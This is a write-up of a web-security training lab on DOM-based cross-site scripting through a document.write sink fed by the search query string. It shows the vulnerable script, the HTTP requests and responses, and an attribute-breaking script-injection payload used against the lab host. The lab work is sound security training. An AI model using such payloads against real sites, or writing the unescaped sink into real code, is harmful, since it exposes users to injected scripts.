 ### Lab: DOM XSS in document.write sink using source location.search
#### **Recon:**
-----
**Request:**
```http
GET /?search=some_text HTTP/2
Host: 0bb.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3657

...Omitted for Brevety...

<script>
	function trackSearch(query) {
		document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		trackSearch(query);
	}
</script>
```
`Inspecting the web page content`
```html
...Omitted for Brevety...
<img src="/resources/images/tracker.gif?searchTerms=some_text">
...Omitted for Brevety...
```

**Affected Locations:**
```
https://0bb.web-security-academy.net/?search=
```

```js
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
```
### Exploitation
----
**Payload**
```js
"><script>alert('xss')</script>
```
**Request:**
```http
GET /?search="><script>alert('xss')</script> HTTP/2
Host: 0bb.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3709

...Omitted for Brevety...
```


